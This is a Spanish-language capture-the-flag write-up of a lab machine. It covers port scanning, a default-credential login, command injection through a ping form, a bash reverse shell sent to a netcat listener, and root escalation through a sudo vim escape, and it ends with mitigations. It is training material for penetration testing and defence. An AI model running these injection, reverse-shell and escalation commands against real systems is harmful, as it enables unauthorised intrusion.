







<h1 align="center">[Writeup] REVERSE - Reporte de Vulnerabilidad</h1>

**Fecha:** 18 de Mayo, 2026

**Severidad:** Crítica 🔴

**Objetivo:** `172.17.0.2`

**Vulnerabilidad Identificada:** Inyección de Comandos de Sistema (Command Injection) vía Web y posterior evasión de restricciones para el establecimiento de una Shell Reversa.

**Plataforma**: WhoAmI-Labs.com

---
# Descripción
"Laboratorio pedagógico de SUID & Sudo (Nivel Easy). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: REVERSE, requiriendo obtener acceso inicial y comprometer el sistema."

---

## 1. Fase de Reconocimiento y Enumeración

### Escaneo de Puertos (Nmap)

Se realizó un escaneo inicial de la superficie expuesta del host objetivo, identificando un único punto de entrada:

```
nmap -sC -sV -p- -T4 --min-rate 1000 172.17.0.2 -oN scan_reverse.txt
```

**Resultados del escaneo:**

- `8080/tcp` - open - `http` (Servidor Web)

### Fuzzing de Directorios y Bypass de Login

Al realizar la enumeración de directorios con `gobuster`, se identificaron varias rutas internas, pero el servidor aplicaba una redirección automática hacia un panel de autenticación (/login.php)

```
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak
```



Mediante un ataque de adivinación de credenciales (_Guessing_), se logró romper la autenticación del panel utilizando credenciales débiles por defecto:

- **Usuario:** `admin`
- **Contraseña:** `admin123`



## 2. Fase de Análisis de Vulnerabilidades Web

### Identificación de Command Injection

Una vez dentro del panel administrativo, se detectó una funcionalidad diseñada para verificar la conectividad de la red interna mediante la ejecución de la herramienta nativa `ping`.

El formulario web recibía una dirección IP del usuario y la concatenaba directamente en un comando de la terminal del servidor (ej. `shell_exec("ping -c 4 " . $ip)`), sin aplicar una sanitización adecuada.

### Prueba de Concepto (PoC)

Para demostrar la ejecución remota de comandos (RCE), se utilizaron operadores de control de Bash (como el punto y coma `;`, el pipe `|` o el ampersand `&&`) para encadenar instrucciones arbitrarias en el cuadro de texto del formulario:

```
# Entrada inyectada en el formulario de Ping:
127.0.0.1 ; whoami && id
```

**Resultado:** El servidor web procesó el ping e inmediatamente después ejecutó los comandos inyectados, imprimiendo en la interfaz web la identidad del usuario que corre el servicio web (comúnmente `www-data`).



---

## 3. Fase de Intrusión (Establecimiento de la Reverse Shell)

Haciendo honor al nombre del laboratorio (**"reverse"**), el objetivo fue aprovechar el Command Injection para forzar al servidor a enviarnos una consola interactiva de vuelta hacia nuestro equipo de ataque.

### Paso 1: Poner el puerto en escucha (Kali Linux)

En nuestra terminal, levantamos un listener con `netcat` para recibir la conexión:

```
nc -nlvp 4444
```
### Paso 2: Inyección del Payload de la Shell Reversa

En el formulario web vulnerable, se procedió a introducir una línea de comando diseñada para redirigir la entrada y salida de Bash hacia nuestra IP.

_(Nota: Dependiendo del laboratorio, puede que hayas usado un payload clásico en Bash, en Netcat o un script de Python. Vuelve a probar cuál te funcionó, un clásico que nunca falla si Bash está presente es:)_

```
127.0.0.1 ; bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

**Resultado:** El servidor web procesó la solicitud, la terminal web se quedó cargando y en nuestra máquina Kali se abrió de forma exitosa una sesión de comandos remota.



---

## 4. ### Escalada de Privilegios (Privilege Escalation)

Una vez establecido el acceso inicial como el usuario de bajos privilegios `www-data`, se procedió a realizar una auditoría local del sistema para identificar vectores que permitieran la elevación de privilegios hacia el usuario administrador (`root`).

#### Enumeración de Privilegios Sudo

Se ejecutó el comando de comprobación de políticas de privilegios de la herramienta `sudo`:

```
sudo -l
```

**Resultados del análisis:** El sistema operativo devolvió una configuración sumamente permisiva en el archivo de configuración de sudoers:

- `(root) NOPASSWD: /usr/bin/vim`

Esto indica que el rol actual tiene permitido ejecutar el editor de texto interactivo `Vim` con los privilegios del superusuario `root` sin necesidad de proporcionar una credencial de autenticación.

#### Explotación del Vector Sudoers (Escape de Vim)

De acuerdo con las técnicas de evasión documentadas en GTFOBins, los editores de texto interactivos como Vim permiten la ejecución de subprocesos del sistema mediante su consola de comandos interna (`:` junto al operador `!`). Al combinar esta propiedad con los privilegios heredados por `sudo`, se ejecutó la siguiente instrucción para instanciar una consola con privilegios máximos:

```
sudo /usr/bin/vim -c ':!/bin/sh'
```
Bandera capturada:

```
REVERSE{w3b_l0g1n_cmdi_r3v3rs3_sh3ll_pr1v3sc}
```


### 5. Mitigaciones Recomendadas (Sección Sudoers)

- _(Mantener las mitigaciones web previas de Command Injection y contraseñas débiles)_

- **Principio de Menor Privilegio en Sudoers:** Se debe auditar y eliminar de inmediato la regla que permite a cuentas de servicio de red (como `www-data`) ejecutar binarios interactivos como `root`. Las aplicaciones web nunca deben tener la capacidad de invocar herramientas del sistema con elevación de privilegios.

- **Restricción de Ejecución en Editores:** Si por alguna razón operativa fuera estrictamente necesario otorgar acceso a Vim mediante sudo, se debe configurar la directiva `NOEXEC` en el archivo `/etc/sudoers` o utilizar la versión restringida del editor (`rvim`), la cual deshabilita por completo la capacidad de interactuar con la shell del sistema operativo (impidiendo el uso de comandos tipo `:!`).
